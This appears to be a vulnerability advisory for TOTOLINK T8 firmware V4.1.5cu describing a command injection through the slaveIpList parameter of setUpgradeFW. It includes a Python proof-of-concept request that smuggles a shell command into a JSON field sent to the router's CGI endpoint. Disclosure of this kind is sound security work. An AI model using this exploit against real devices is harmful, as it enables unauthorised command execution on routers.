

# TOTOLINK  T8 V4.1.5cu was discovered to contain a command injection vulnerability via the slaveIpList parameter in the function setUpgradeFW

## Description

TOTOLINK  T8 V4.1.5cu was discovered to contain a command injection vulnerability via the slaveIpList parameter in the function setUpgradeFW



## Firmware information

* Manufacturer's address:https://www.totolink.net/


* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

In function `sub_421678`,The "slaveIpList" parameter does not filter user input, which can cause command injection vulnerabilities


POC

```
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1672999258:2"}
data = {'FileName':'aa', 'slaveIpList':'0\"|ls />/tmp/setUpgradeFW.txt|echo \"22', 'topicurl':'setting/setUpgradeFW'}
rep = requests.post(url, cookies=cookie, json=data)
print(rep.status_code)
print(rep.text)
```

